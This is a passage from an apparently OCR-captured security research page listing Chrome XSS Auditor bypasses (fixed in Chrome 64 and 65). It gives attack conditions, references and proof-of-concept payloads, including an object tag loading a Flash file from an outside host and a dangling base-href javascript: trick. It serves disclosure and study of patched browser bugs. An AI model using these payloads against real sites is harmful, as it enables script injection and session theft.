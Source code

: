 Fixed in Chrome 64.

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. Flash can be used in the target environment

Reference URL:

- [https://masatokinugawa.l0.cm/2016/12/xss12.html](https://masatokinugawa.l0.cm/2016/12/xss12.html)

PoCs:

[https://vulnerabledoma.in/bypass/text?q=%3Cobject%20allowscriptaccess=always%3E%3Cparam%20name=url%20value=https://l0.cm/xss.swf%3E](https://vulnerabledoma.in/bypass/text?q%3D%253Cobject%2520allowscriptaccess%3Dalways%253E%253Cparam%2520name%3Durl%2520value%3Dhttps://l0.cm/xss.swf%253E)

```html
<object allowscriptaccess=always><param name=url value=https://l0.cm/xss.swf>
```

[https://vulnerabledoma.in/bypass/text?q=%3Cobject%20allowscriptaccess=always%3E%3Cparam%20name=code%20value=https://l0.cm/xss.swf%3E](https://vulnerabledoma.in/bypass/text?q%3D%253Cobject%2520allowscriptaccess%3Dalways%253E%253Cparam%2520name%3Dcode%2520value%3Dhttps://l0.cm/xss.swf%253E)

```html
<object allowscriptaccess=always><param name=code value=https://l0.cm/xss.swf>
```

## Use of links and half-baked base tags (Chrome)

supplement:

Fixed in Chrome 65.

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. followed by whitespace
3. `'"`there is after

Reference URL:

- [https://bugs.chromium.org/p/chromium/issues/detail?id=719962](https://bugs.chromium.org/p/chromium/issues/detail?id%3D719962)

PoCs:

[https://vulnerabledoma.in/bypass/text?type=4&q=%3Ca%20href=/**/alert(1)%3EXSS%3C/a%3E%3Cbase%20href=%22javascript:\](https://vulnerabledoma.in/bypass/text?type%3D4%26q%3D%253Ca%2520href%3D/**/alert(1)%253EXSS%253C/a%253E%253Cbase%2520href%3D%2522javascript:%255C)

```html
<div> <a href=/**/alert(1)>XSS</a><base href="javascript:\ </div><div id="x"></div>
```

# XSS filter for IE/Edge
